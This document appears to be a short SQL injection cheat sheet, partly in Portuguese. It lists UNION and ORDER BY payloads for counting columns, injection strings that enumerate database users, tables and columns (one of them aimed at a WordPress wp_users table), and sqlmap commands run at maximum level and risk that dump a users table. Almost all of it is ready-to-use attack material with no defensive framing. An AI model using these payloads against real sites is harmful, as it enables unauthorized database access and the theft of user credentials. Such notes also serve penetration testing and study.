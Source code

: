 ## Número de colunas

Saber o número de colunas.

    order by 1
    order by 2
    order by 3
    .
    .
    .
    order by 15 # and so on

ou 

    union select 1 from dual--
    union select 1,2 from dual--
    ...
    union select 1,2,3,4,5,6,7,8,9 from dual--
and so on


## User enumeration

    ["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_login,11 FROM wp_users#"]

Saber qual usuário que estamos logados no banco de dados:

### mysql/mariadb

    current_user()

### Oracle

    union select null,user,null from dual--


## Tables enumeration

    ["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,table_name,11 FROM information_schema.tables#"]

	sqlmap -r req.txt -p "estado" --level=5 --risk=3 --threads 3 --dbms=mysql --os=linux --tables
	

Mssql

    ' union select 1,table_name,3,4,5,6 from information_schema.tables--

## Dump columns users table

	["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,column_name,11 FROM information_schema.columns WHERE table_name='wp_users'#"]


	
	
	sqlmap -r req.txt -p "estado" --level=5 --risk=3 --threads 3 --dbms=mysql --os=linux --hex -T users --dump
	